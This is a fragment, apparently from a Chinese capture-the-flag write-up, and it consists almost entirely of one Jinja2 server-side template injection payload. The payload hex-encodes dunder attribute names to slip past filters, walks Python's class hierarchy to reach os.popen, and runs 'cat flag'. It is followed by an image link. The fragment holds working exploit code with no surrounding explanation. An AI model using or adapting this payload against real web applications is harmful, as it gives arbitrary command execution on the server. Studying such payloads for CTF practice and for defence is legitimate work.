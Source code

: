 转换过后的

```plain
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(133)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")('popen')('cat flag')|attr("read")()}}
```

[![在这里插入图片描述](assets/1698900310-e619fc7f4d6fde8a3283e9fd79c62dc7.png)](https://storage.tttang.com/media/attachment/2022/08/14/949d68da-8f0d-40cf-8629-0c1b3878c960.png)
